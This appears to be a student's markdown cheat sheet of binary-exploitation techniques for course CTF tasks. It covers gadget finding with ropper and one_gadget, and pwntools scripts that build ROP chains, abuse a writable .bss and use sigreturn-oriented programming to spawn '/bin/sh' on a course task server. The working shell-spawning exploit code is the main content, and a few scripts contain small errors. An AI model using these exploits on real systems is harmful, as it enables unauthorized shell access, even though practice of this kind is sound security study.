 # Stack

### Objdump explore elf if small ASM program given (instead of IDA)
- dump binary with:
```
objdump -M intel -d ./my_binary
objdump -M intel -D ./vuln
```

### Ropper (find gadgets):
- https://github.com/sashs/Ropper
- install ropper
```
sudo pip install capstone
sudo pip install filebytes
sudo pip install keystone-engine
pip install ropper
```
- find gadgets
```
ropper --file ./vuln
ropper --file ./vuln --search syscall
ropper --file ./vuln --inst-count 2 --type rop
ropper --file ./vuln --search "mov rdi, e?x" --inst-count 2 --type rop

ropper --file ./vuln --search "pop rdi; ret;" 

ropper --file ./vuln --semantic "rdi+=rax"
```
- find all gadgets interactively
```
ropper
file vuln
```
- exclude stuff
```
badbytes 0a
```
- find specific ones
```
search /1/ pop rdi
```
- find gadgets with ropper
```
search pop %; mov rdi, [rsp + %]; mov rax, [rsp + %];
```

### find the ONEGADGET
- if we jump to this gadget and fullfill the constraints, then we get shell directly
```
sudo gem install one_gadget
```
```
one_gadget ./libc.so.6
```


### build ropchain by hand
```python
import pwn
pwn.context.arch = 'amd64'
port = 1227
conn = pwn.remote('tasks.ws24.softsec.rub.de', port)

libc = pwn.ELF("./libc.so.6")

# set base address of libc, sothat later we get correct address directly (else we jsut get offset in libc)
libc.address = 0 # leak me somehow

offset_gets = libc.symbols['gets']
offset_system = libc.symbols['system']
offset_shell_string = next(libc.search(b'/bin/sh\x00'))


address_g01 = 0x0000000000403f62 # pop rdx; ret;
address_g02 = 0x000000000040d6c7 # lea rcx, [rdx + 0x558]; sub rax, rcx; sar rax, 2; ret;
address_g15 = 0x0000000000401010 # call rax;
address_fil = 0x00000000004011df # nop; ret;

rop_chain = [
    b'A'*24,
    pwn.p64(address_g01),
    pwn.p64(address_g02),
    b'A'*8,,
    pwn.p64(address_fil),
    pwn.p64(address_g15)
]

rop_chain = b''.join(gadget for gadget in rop_chain)

print(rop_chain.hex())
conn.sendline(rop_chain)
```


### build ropchain automatically
```python
import pwn
pwn.context.arch = 'amd64'
port = 1227
conn = pwn.remote('tasks.ws24.softsec.rub.de', port)

libc = pwn.ELF("./libc.so.6")

libc.address = 0 # leak me
rop = pwn.ROP(libc)
rop.call(rop.ret) # this is needed for aligned sothat syscall is 16 byte aligned
# call system, so jump to this address and set parameter beforehand
rop.call(libc.symbols['system'], [next(libc.search(b'/bin/sh\x00'))])

payload = b'A'*(0x28) + rop.chain()
conn.sendline(payload)
```


### Trick: If PIE disabled, we can write in well-known .bss (uninitialized global writable data) (14_boromir) (or .data)
```python
import pwn
pwn.context.arch = 'amd64'

exe = pwn.ELF("./vuln_patched")
libc = pwn.ELF("./libc.so.6")

conn = pwn.remote('tasks.ws24.softsec.rub.de', 33586)

# one_gadget ./libc.so.6
"""
0xd509f execve("/bin/sh", rbp-0x40, r13)
constraints:
  address rbp-0x38 is writable
  rdi == NULL || {"/bin/sh", rdi, NULL} is a valid argv
  [r13] == NULL || r13 == NULL || r13 is a valid envp
"""
one_gadget_offset = 0xd509f

message = conn.recvline()
printf_address = int(message[-13:-1],16)
libc_base = printf_address - libc.symbols['printf']
one_gadget = libc_base + one_gadget_offset

# we have no pie => bss is writable and at a fixed position
rbp = exe.bss(0x40)
payload = b'A'*32 + pwn.p64(rbp) + pwn.p64(one_gadget)

conn.send(payload)
conn.interactive()
```


### Sigreturn oriented programming (16 SROP)
- abuse SIGRETURN sycall, which reads stuff from the stack and puts it into the registers
- pwntools does all the heavly lifting for us:
```python
import pwn
pwn.context.arch = 'amd64'

exe = pwn.ELF("./vuln")

conn = pwn.remote('tasks.ws24.softsec.rub.de', 33595)

# Pie is off, this makes live easy :)
shell_string = next(exe.search(b'/bin/sh\x00'))

# I want to execute the following shellcode:
"""
mov rax, 59
moc rdi, 0x402029; # the address of '/bin/sh\x00'
mov rsi, 0
mov rdx, 0
syscall
"""

# found via ropper
pop_rax_gadget = 0x00000000004010b3 # pop rax; ret; 
syscall_gadget = 0x0000000000401010 # syscall;

# first we execute the syscall "SIGRETURN" (15) to setup the 4 register, then we just return to syscall again to get a shell :)

# rop.execve(next(binary.search('/bin/sh'), 0, 0))
frame = pwn.SigreturnFrame()
# do the execve syscall (this replaces this process with "bin/sh", this is a more lower level call than system() which created a new child via fork)
frame.rax = 59
frame.rdi = shell_string
frame.rsi = 0
frame.rdx = 0
frame.rip = syscall_gadget

rop = pwn.ROP(exe)
rop.raw(pop_rax_gadget)
# do the sigreturn syscall (15) (https://syscalls.mebeim.net/?table=x86/64/x64/latest)
rop.raw(15)
rop.raw(syscall_gadget)
rop.raw(bytes(frame))

rop = pwn.ROP(libc)
rop.call(rop.ret)
rop.call(libc.symbols['system'], [next(libc.search(b'/bin/sh\x00'))])

payload = b'A' * 208 + rop.chain()

print(f'payload length: {len(payload)}')

conn.send(payload)
conn.interactive()
```


### Shadow stack (18 magic8ball)
- we cannot return as this is checked, so just use call


